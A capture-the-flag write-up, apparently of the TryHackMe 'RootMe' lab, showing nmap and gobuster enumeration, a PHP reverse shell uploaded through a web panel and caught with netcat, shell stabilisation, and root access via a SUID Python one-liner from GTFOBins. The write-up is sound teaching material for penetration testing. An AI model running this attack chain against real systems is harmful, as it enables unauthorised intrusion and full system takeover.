

{kind=link}
Rootme is a fairly simple linux box. We shall start with
nmapscan to see the ports open on the machine. We would then usegobusterfor directory brute force and from there we would find where you can upload a file. So we shall upload a reverse shell script which will give us the initial access on the system. Finally we shall do privilege escalation by exploiting theSUIDof one of the files to get root privileges.
Enumeration
We will begin with port scanning to know which ports are open. We shall use nmap . We have used -sC for default scripts, -sV to enumerate all versions, -oA to output all format in a file called initial and finally it’s IP address. Here is the results:
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
└─$ nmap -sC -sV -oA initial 10.10.151.224
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-01 11:31 EAT
Nmap scan report for 10.10.151.224
Host is up (0.23s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 2048 4ab9160884c25448ba5cfd3f225f2214 (RSA)
| 256 a9a686e8ec96c3f003cd16d54973d082 (ECDSA)
|_ 256 22f6b5a654d9787c26035a95f3f9dfcd (ED25519)
80/tcp open http Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags:
| /:
| PHPSESSID:
|_ httponly flag not set
|_http-title: HackIT - Home
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 57.88 seconds
Well Port 80 is open so we shall use gobuster for directory brute force and here is it’s results:
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
└─$ gobuster dir -u http://10.10.151.224/ -w /usr/share/SecLists/Discovery/Web-Content/common.txt
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url: http://10.10.151.224/
[+] Method: GET
[+] Threads: 10
[+] Wordlist: /usr/share/SecLists/Discovery/Web-Content/common.txt
[+] Negative Status codes: 404
[+] User Agent: gobuster/3.3
[+] Timeout: 10s
===============================================================
2023/06/01 11:30:55 Starting gobuster in directory enumeration mode
===============================================================
/.hta (Status: 403) [Size: 278]
/.htaccess (Status: 403) [Size: 278]
/.htpasswd (Status: 403) [Size: 278]
/css (Status: 301) [Size: 312] [--> http://10.10.151.224/css/]
/index.php (Status: 200) [Size: 616]
/js (Status: 301) [Size: 311] [--> http://10.10.151.224/js/]
/panel (Status: 301) [Size: 314] [--> http://10.10.151.224/panel/]
/server-status (Status: 403) [Size: 278]
/uploads (Status: 301) [Size: 316] [--> http://10.10.151.224/uploads/]
Progress: 4713 / 4714 (99.98%)===============================================================
2023/06/01 11:33:20 Finished
===============================================================
Well, we have a directory called /panel and if we go there we would see that we can upload some file. Since the website is running on php we need to find a php exploit that will give us a reverse shell. panel
{kind=link}
Initial access
We used the same exploit that was previously used on the LazyAdmin challenge to gain initial access. Change the IP and the Port that netcat will be listening from. The exploit can be found at the following GitHub repository: https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php.
1
2
3
4
5
$ whoami
www-data
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$
Well we have gotten shell and we are www-data . So we need to upgrade our shell so that we have a stable shell.
1
2
3
$ python -c 'import pty;pty.spawn("/bin/bash")'
bash-4.4$ ^Z
zsh: suspended nc -lvnp 9001
Press Ctrl + z to background the session then:
1
2
3
4
5
└─$ stty raw -echo; fg
[1] + continued nc -lvnp 9001
bash-4.4$ export TERM=xterm
bash-4.4$
Privilege Escalation
After gaining access as www-data, we need to escalate our privileges to gain root access. We can start by searching for files with the SUID bit set using the following command:
1
2
find / -perm /4000 2>/dev/null
This will show us all the files with the SUID bit set. We can then use GTFOBins to find ways to exploit these files. In this case, Python was not set correctly and we can exploit it by using this from gtfobins:
1
2
/usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
Once we have a root shell, we can navigate to the /root directory and read the root.txt file to get the flag.
1
2
3
4
5
6
7
# cd /root
# ls
root.txt
# cat root.txt
THM{changed_the_flag}
#
Yeah that’s it… We have successfully hacked into rootme machine and if you have any questions regarding the box you can ask on the comment section. HAPPY HACKING CHEERS ;)